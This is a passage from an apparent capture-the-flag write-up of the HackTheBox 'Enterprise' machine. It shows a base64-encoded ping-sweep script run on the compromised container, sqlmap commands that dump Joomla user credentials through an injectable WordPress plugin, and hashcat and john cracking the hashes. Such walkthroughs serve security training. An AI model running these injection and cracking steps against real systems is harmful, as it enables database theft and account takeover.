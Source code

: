 > **Victime Machine:**

```bash
echo IyEvYmluL2Jhc2gKCmZvciBob3N0IGluICQoc2VxIDEgMjU1KTsgZG8KICB0aW1lb3V0IDEgYmFzaCAtYyAicGluZyAtYyAxIDE3Mi4xNy4wLiRob3N0IiAmPi9kZXYvbnVsbCAmJiBlY2hvICJbK10gSG9zdCAxNzIuMTcuMC4kaG9zdCAtIEFDVElWRSIgJgpkb25lOyB3YWl0Cg== | base64 -d > host_discovery.sh && chmod +x host_discovery.sh

./host_discovery.sh
#    [+] Host 172.17.0.1 - ACTIVE      <-- Victime host?
#    [+] Host 172.17.0.4 - ACTIVE      <-- WordPress Container
#    [+] Host 172.17.0.3 - ACTIVE      ?
#    [+] Host 172.17.0.2 - ACTIVE      ?
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_059.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_060.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<br /><br />

I go back through what I have so far, and I also count on the other **CMS** (**Joomla**) - I often get a bit disoriented, because I think that with several **HTTP** services running, it's just **honeypots**. Now with the **SQLi** I had previously exploited with `sqlmap`, I also had access to the **Joomla** data. I perform the necessary commands and get some hashed passwords, with `hashcat` I identify the type of algorithm being implemented (**Blowfish**) and successfully crack them (using first the credentials I already had, so as not to waste a lot of time using **rockyou.txt**).

```bash
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' --dbs --batch
#    --> joomla, joomladb

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomla --tables
#    --> No tables found

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb --tables
#    --> joomladb --> edz2g_users

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users --columns
#    --> name,email,password,username

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users -C name,email,password,username --dump

nvim hash
hashcat --example-hashes | grep '$2a\$' -C 13 -A 3

# Before wasting a lot of time, I can test the credentials I already have (Password Reuse)
hashcat -a 0 -m 3200 hashes ./Crendentials.txt --username     # :)
# or:
john --wordlist=Credentials.txt hashes                        # :)
```
